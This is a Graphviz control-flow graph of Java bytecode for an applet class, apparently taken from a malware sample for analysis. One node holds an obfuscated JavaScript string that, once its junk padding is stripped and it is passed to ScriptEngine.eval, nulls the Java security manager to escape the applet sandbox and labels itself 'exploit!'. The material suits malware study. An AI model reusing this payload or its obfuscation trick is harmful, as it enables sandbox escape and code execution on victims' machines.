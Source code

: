 digraph "" {
    "r0 := @this: Tesia"
    "new java.lang.String"
    "r0 := @this: Tesia"->"new java.lang.String";
    "dup1.r"
    "new java.lang.String"->"dup1.r";
    "specialinvoke <java.lang.String: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.String: void <init>()>";
    "store.r r22"
    "specialinvoke <java.lang.String: void <init>()>"->"store.r r22";
    "push 0"
    "store.r r22"->"push 0";
    "store.i $r2"
    "push 0"->"store.i $r2";
    "load.i $r2"
    "store.i $r2"->"load.i $r2";
    "push 1"
    "load.i $r2"->"push 1";
    "ifcmpge.i new Men"
    "push 1"->"ifcmpge.i new Men";
    "new java.lang.StringBuilder"
    "ifcmpge.i new Men"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r22"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r22";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r22"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r22";
    "inc.i $r2 1"
    "store.r r22"->"inc.i $r2 1";
    "goto load.i $r2"
    "inc.i $r2 1"->"goto load.i $r2";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "new Men"
    "ifcmpge.i new Men"->"new Men";
    "store.r $r2"
    "new Men"->"store.r $r2";
    "load.r $r2"
    "store.r $r2"->"load.r $r2";
    "specialinvoke <Men: void <init>()>"
    "load.r $r2"->"specialinvoke <Men: void <init>()>";
    "specialinvoke <Men: void <init>()>"->"load.r $r2";
    "fieldget <Men: javax.script.ScriptEngine kkswwop>"
    "load.r $r2"->"fieldget <Men: javax.script.ScriptEngine kkswwop>";
    "push \"voijhgfd3ar eroijhgfd3rooijhgfd3r = neoijhgfd3w Eroijhgfd3rooijhgfd3r(\\\"oijhgfd3y eroijhgfd3rooijhgfd3r\\\");thoijhgfd3is.tooijhgfd3Stroijhgfd3inoijhgfd3g = fuoijhgfd3ncoijhgfd3tion(){ jaoijhgfd3va.laoijhgfd3ng.Syoijhgfd3steoijhgfd3m.seoijhgfd3tSeoijhgfd3curoijhgfd3ityManaoijhgfd3ger(nuoijhgfd3ll);appoijhgfd3let.stoijhgfd3aroijhgfd3t();reoijhgfd3tuoijhgfd3rn \\\"exoijhgfd3plooijhgfd3it!\\\";};eroijhgfd3roijhgfd3or.messoijhgfd3agoijhgfd3e = thioijhgfd3s;\""
    "fieldget <Men: javax.script.ScriptEngine kkswwop>"->"push \"voijhgfd3ar eroijhgfd3rooijhgfd3r = neoijhgfd3w Eroijhgfd3rooijhgfd3r(\\\"oijhgfd3y eroijhgfd3rooijhgfd3r\\\");thoijhgfd3is.tooijhgfd3Stroijhgfd3inoijhgfd3g = fuoijhgfd3ncoijhgfd3tion(){ jaoijhgfd3va.laoijhgfd3ng.Syoijhgfd3steoijhgfd3m.seoijhgfd3tSeoijhgfd3curoijhgfd3ityManaoijhgfd3ger(nuoijhgfd3ll);appoijhgfd3let.stoijhgfd3aroijhgfd3t();reoijhgfd3tuoijhgfd3rn \\\"exoijhgfd3plooijhgfd3it!\\\";};eroijhgfd3roijhgfd3or.messoijhgfd3agoijhgfd3e = thioijhgfd3s;\"";
    "push \"oijhgfd3\""
    "push \"voijhgfd3ar eroijhgfd3rooijhgfd3r = neoijhgfd3w Eroijhgfd3rooijhgfd3r(\\\"oijhgfd3y eroijhgfd3rooijhgfd3r\\\");thoijhgfd3is.tooijhgfd3Stroijhgfd3inoijhgfd3g = fuoijhgfd3ncoijhgfd3tion(){ jaoijhgfd3va.laoijhgfd3ng.Syoijhgfd3steoijhgfd3m.seoijhgfd3tSeoijhgfd3curoijhgfd3ityManaoijhgfd3ger(nuoijhgfd3ll);appoijhgfd3let.stoijhgfd3aroijhgfd3t();reoijhgfd3tuoijhgfd3rn \\\"exoijhgfd3plooijhgfd3it!\\\";};eroijhgfd3roijhgfd3or.messoijhgfd3agoijhgfd3e = thioijhgfd3s;\""->"push \"oijhgfd3\"";
    "push \"oijhgfd3\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "pop"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "load.r r0"
    "pop"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r $r2";
    "load.r $r2"->"fieldget <Men: javax.script.ScriptEngine kkswwop>";
    "push \"eroijhgfd3rooijhgfd3r\""
    "fieldget <Men: javax.script.ScriptEngine kkswwop>"->"push \"eroijhgfd3rooijhgfd3r\"";
    "push \"eroijhgfd3rooijhgfd3r\""->"push \"oijhgfd3\"";
    "push \"oijhgfd3\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <Tesia: javax.swing.JList luwwsd>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <Tesia: javax.swing.JList luwwsd>";
    "fieldput <Tesia: javax.swing.JList luwwsd>"->"push 0";
    "push 0"->"store.i $r2";
    "store.i $r2"->"load.i $r2";
    "load.i $r2"->"push 1";
    "ifcmpge.i load.r r0"
    "push 1"->"ifcmpge.i load.r r0";
    "ifcmpge.i load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r22";
    "load.r r22"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r22";
    "store.r r22"->"inc.i $r2 1";
    "inc.i $r2 1"->"goto load.i $r2";
    "ifcmpge.i load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <Tesia: javax.swing.JList luwwsd>"
    "load.r r0"->"fieldget <Tesia: javax.swing.JList luwwsd>";
    "virtualinvoke <Tesia: java.awt.Component add(java.awt.Component)>"
    "fieldget <Tesia: javax.swing.JList luwwsd>"->"virtualinvoke <Tesia: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <Tesia: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
}
